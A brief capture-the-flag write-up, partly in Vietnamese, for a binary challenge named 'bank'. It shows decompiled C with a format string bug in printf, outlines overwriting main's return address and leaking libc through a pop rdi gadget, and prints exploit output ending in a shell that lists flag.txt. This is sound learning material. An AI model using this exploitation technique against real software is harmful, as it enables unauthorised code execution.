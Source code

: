 # write up bank
```c
    extern unsigned long long g_404070;

    void info()
    {
        char v1;  // [bp+0x8]
        unsigned long long v2;  // rbp

        printf(g_404070);
        printf("Money: %u\n");
        v2 = *((long long *)&v1);
        return;
    }
```
- yeah, format string =)) 
- cộng thêm quả chương trình lặp đi lặp lại nên chỉ cần nhắm vào return của main, đến khi chọn exit cái là nhảy vào gadget, bài này hơi dài nhưng có format string là có tất cả 
- có thêm pop rdi là có thể leak libc để sau đó kiếm được libc version, vì chương trình k có sẵn gadgets và libc nữa 
```bash
[*] target: 0x269a
[*] byte: 0x269a
[*] byte: 0x58e4
[*] target: 0x269c
[*] byte: 0x269c
[*] byte: 0x7f4d
[*] target: 0x26a0
[*] byte: 0x26a0
[*] byte: 0xdbf0
[*] target: 0x26a2
[*] byte: 0x26a2
[*] byte: 0x58cd
[*] target: 0x26a4
[*] byte: 0x26a4
[*] byte: 0x7f4d
[*] Switching to interactive mode
 See you later!
1. Login
2. Register
3. Exit
> $ 3
$ ls
banking
flag.txt
run.sh
$  
```
